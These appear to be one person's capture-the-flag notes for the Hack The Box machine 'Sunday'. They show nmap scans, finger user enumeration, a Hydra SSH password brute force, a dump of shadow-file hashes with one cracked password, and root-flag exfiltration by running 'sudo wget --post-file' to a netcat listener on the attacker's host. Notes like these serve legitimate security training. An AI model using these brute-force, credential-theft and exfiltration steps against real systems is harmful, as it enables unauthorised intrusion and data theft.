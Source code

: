 # Nmap 7.91 scan initiated Sun Jan 24 12:06:17 2021 as: nmap -v -sC -sV -Pn -oN nmap 10.10.10.76
Increasing send delay for 10.10.10.76 from 0 to 5 due to 11 out of 22 dropped probes since last increase.
Nmap scan report for 10.10.10.76
Host is up (0.098s latency).
Not shown: 972 closed ports
PORT      STATE    SERVICE        VERSION
79/tcp    open     tcpwrapped
|_finger: ERROR: Script execution failed (use -d to debug)
111/tcp   open     tcpwrapped
211/tcp   filtered 914c-g
711/tcp   filtered cisco-tdp
1033/tcp  filtered netinfo
1084/tcp  filtered ansoft-lm-2
1137/tcp  filtered trim
1145/tcp  filtered x9-icue
1494/tcp  filtered citrix-ica
1687/tcp  filtered nsjtp-ctrl
2009/tcp  filtered news
3221/tcp  filtered xnm-clear-text
3493/tcp  filtered nut
3766/tcp  filtered sitewatch-s
4567/tcp  filtered tram
5190/tcp  filtered aol
5730/tcp  filtered unieng
5962/tcp  filtered unknown
5987/tcp  filtered wbem-rmi
7435/tcp  filtered unknown
7625/tcp  filtered unknown
7938/tcp  filtered lgtomapper
9877/tcp  filtered x510
9968/tcp  filtered unknown
10616/tcp filtered unknown
20828/tcp filtered unknown
32773/tcp filtered sometimes-rpc9
55056/tcp filtered unknown

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 24 12:07:43 2021 -- 1 IP address (1 host up) scanned in 86.30 seconds


![](2021-01-24-12-10-21.png)


kali@kali:~/htb/boxes/sunday/10.10.10.76$ finger @10.10.10.76
No one logged on
https://pentestlab.blog/tag/finger/


nmap -p111 -v -sC -sV -Pn -oN nmap.rpc 10.10.10.76
Nmap scan report for 10.10.10.76
Host is up (0.10s latency).

PORT    STATE SERVICE VERSION
111/tcp open  rpcbind 2-4 (RPC #100000)

https://github.com/pentestmonkey/finger-user-enum


kali@kali:/opt/finger-user-enum$ ./finger-user-enum.pl -u root -t 10.10.10.76
Starting finger-user-enum v1.0 ( http://pentestmonkey.net/tools/finger-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Worker Processes ......... 5
Target count ............. 1
Username count ........... 1
Target TCP port .......... 79
Query timeout ............ 5 secs
Relay Server ............. Not used

######## Scan started at Sun Jan 24 12:23:54 2021 #########
root@10.10.10.76: root     Super-User            pts/3        <Apr 24, 2018> sunday              ..
######## Scan completed at Sun Jan 24 12:23:55 2021 #########
1 results.

1 queries in 1 seconds (1.0 queries / sec)



kali@kali:/opt/finger-user-enum$ ./finger-user-enum.pl -U /usr/share/seclists/Usernames/top-usernames-shortlist.txt -t 10.10.10.76
Starting finger-user-enum v1.0 ( http://pentestmonkey.net/tools/finger-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Worker Processes ......... 5
Usernames file ........... /usr/share/seclists/Usernames/top-usernames-shortlist.txt
Target count ............. 1
Username count ........... 17
Target TCP port .......... 79
Query timeout ............ 5 secs
Relay Server ............. Not used

######## Scan started at Sun Jan 24 12:24:31 2021 #########
admin@10.10.10.76: Login       Name               TTY         Idle    When    Where
adm      Admin                              < .  .  .  . >
lp       Line Printer Admin                 < .  .  .  . >
uucp     uucp Admin                         < .  .  .  . >
nuucp    uucp Admin                         < .  .  .  . >
dladm    Datalink Admin                     < .  .  .  . >
listen   Network Admin                      < .  .  .  . >

root@10.10.10.76: root     Super-User            pts/3        <Apr 24, 2018> sunday              

adm@10.10.10.76: adm      Admin                              < .  .  .  . >

mysql@10.10.10.76: mysql    MySQL Reserved UID                 < .  .  .  . >

user@10.10.10.76: Login       Name               TTY         Idle    When    Where
xvm      xVM User                           < .  .  .  . >
openldap OpenLDAP User                      < .  .  .  . >
nobody   NFS Anonymous Access               < .  .  .  . >
noaccess No Access User                     < .  .  .  . >
nobody4  SunOS 4.x NFS Anonym               < .  .  .  . >..
######## Scan completed at Sun Jan 24 12:24:35 2021 #########
5 results.


sunday nope



nmap -v -p- -sC -sV -Pn -oN nmap.full 10.10.10.76 --max-retries 1

PORT      STATE SERVICE VERSION
79/tcp    open  finger  Sun Solaris fingerd
|_finger: No one logged on\x0D
22022/tcp open  ssh     SunSSH 1.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
|_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
57778/tcp open  rpcbind
Service Info: OS: Solaris; CPE: cpe:/o:sun:sunos



######## Scan started at Sun Jan 24 12:29:12 2021 #########
access@10.10.10.76: access No Access User                     < .  .  .  . >..nobody4  SunOS 4.x NFS Anonym               < .  .  .  . >..
admin@10.10.10.76: Login       Name               TTY         Idle    When    Where..adm      Admin                              < .  .  .  . >..lp       Line Printer Admin                 < .  .  .  . >..uucp     uucp Admin                         < .  .  .  . >..nuucp    uucp Admin                         < .  . >
anne marie@10.10.10.76: Login       Name               TTY         Idle    When    Where..anne                  ???..marie                 ???..
bin@10.10.10.76: bin             ???                         < .  .  .  . >..
dee dee@10.10.10.76: Login       Name               TTY         Idle    When    Where..dee                   ???..dee                   ???..
jo ann@10.10.10.76: Login       Name               TTY         Idle    When    Where..jo                    ???..ann                   ???..
la verne@10.10.10.76: Login       Name               TTY         Idle    When    Where..la                    ???..verne                 ???..
line@10.10.10.76: Login       Name               TTY         Idle    When    Where..lp       Line Printer Admin                 < .  .  .  . >..
message@10.10.10.76: Login       Name               TTY         Idle    When    Where..smmsp    SendMail Message Sub               < .  .  .  . >..
miof mela@10.10.10.76: Login       Name               TTY         Idle    When    Where..miof                  ???..mela                  ???..
root@10.10.10.76: root     Super-User            pts/3        <Apr 24, 2018> sunday              ..
sammy@10.10.10.76: sammy                 console      <Jul 31 17:59>..
sunny@10.10.10.76: sunny                 pts/3        <Apr 24, 2018> 10.10.14.4          ..
sys@10.10.10.76: sys             ???                         < .  .  .  . >..
zsa zsa@10.10.10.76: Login       Name               TTY         Idle    When    Where..zsa                   ???..zsa                   ???..
######## Scan completed at Sun Jan 24 13:02:12 2021 #########





root@10.10.10.76: root     Super-User            pts/3        <Apr 24, 2018> sunday          
sammy@10.10.10.76: sammy                 console      <Jul 31 17:59>..
sunny@10.10.10.76: sunny                 pts/3        <Apr 24, 2018> 10.10.14.4          ..




kali@kali:~/htb/boxes/sunday/10.10.10.76$ /usr/local/bin/hydra -v -L users.txt -P passwords.txt ssh://10.10.10.76:22022
Hydra v9.2-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-24 22:36:33
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 2 tasks per 1 server, overall 2 tasks, 2 login tries (l:2/p:1), ~1 try per task
[DATA] attacking ssh://10.10.10.76:22022/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://sammy@10.10.10.76:22022
[INFO] Successful, password authentication is supported by ssh://10.10.10.76:22022
[22022][ssh] host: 10.10.10.76   login: sunny   password: sunday
[STATUS] attack finished for 10.10.10.76 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-24 22:36:47

kali@kali:~/htb/boxes/sunday/10.10.10.76$ ssh sunny@10.10.10.76 -p 22022
Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1




ssh sunny@10.10.10.76 -p 22022 -oKexAlgorithms=+diffie-hellman-group1-sha1

id
uid=65535(sunny) gid=1(other) groups=1(other)


sunny@sunday:~$ uname -a
SunOS sunday 5.11 snv_111b i86pc i386 i86pc Solaris


sunny@sunday:~$ sudo -l
User sunny may run the following commands on this host:
    (root) NOPASSWD: /root/troll


sunny@sunday:~$ ls -lah /root/troll
ls: cannot access /root/troll: Permission denied


sunny@sunday:~$ sudo /root/troll
testing
uid=0(root) gid=0(root)


sunny@sunday:~$ cat /backup/shadow.backup
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::


sunny@sunday:~$ cat /backup/agent22.backup 
cat: /backup/agent22.backup: Permission denied


7400 | sha256crypt $5$, SHA256 (Unix)                   | Operating System



$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:cooldude!


User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget


sudo wget --post-file=/root/root.txt 10.10.14.9:8090

nc -lvnp 8090